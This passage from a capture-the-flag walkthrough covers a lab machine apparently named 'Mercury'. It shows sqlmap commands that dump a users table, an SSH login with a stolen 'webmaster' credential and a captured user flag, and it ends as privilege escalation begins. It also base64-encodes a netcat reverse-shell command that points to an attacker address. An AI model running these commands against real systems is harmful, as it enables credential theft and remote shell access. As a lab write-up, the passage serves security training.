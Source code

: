 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```


<img width="1125" height="939" alt="image" src="https://github.com/user-attachments/assets/521cc28b-8e5a-413e-97a4-648f87d222fc" />




Didn’t see anything that is helpful to our case. Lets try the other database :<br>
```sqlmap -u "http://192.168.1.201:8080/mercuryfacts/#1*/" -D mercury –tables```



<img width="1125" height="773" alt="image" src="https://github.com/user-attachments/assets/8353a118-3631-4998-9bfa-58e95ff920c9" />



Dump All Data from the Table :
```sqlmap -u "http://192.168.1.201:8080/mercuryfacts/#1*/" -D mercury -T users –dump```



<img width="1125" height="859" alt="image" src="https://github.com/user-attachments/assets/fa1a2a65-6cbf-4b77-bff8-b4655e7cae38" />



We got 4 credentials. Lets try it out. 
Since there is an port 22 for ssh is open. That’s what im gonna use to enter the device system.
Login the ‘webmaster’ first since it is an obvious administrator account by the name of it.
```ssh webmaster@192.168.1.201```



<img width="1125" height="756" alt="image" src="https://github.com/user-attachments/assets/771f2295-b8bc-4501-8507-0df88c513cf2" />


Check directory : ```ls```    <br>   Check the textfile : ```cat user_flag.txt```



<img width="1125" height="247" alt="image" src="https://github.com/user-attachments/assets/dc31b956-99af-4b19-b963-1bae2f42c161" />



We got the first flag : 
**[user_flag_8339915c9a454657bd60ee58776f4ccd]**



**5. Installation**



Objective: Explore the system and identify paths for privilege escalation.



Let’s check the remaining file which is ‘mercury_proj’

```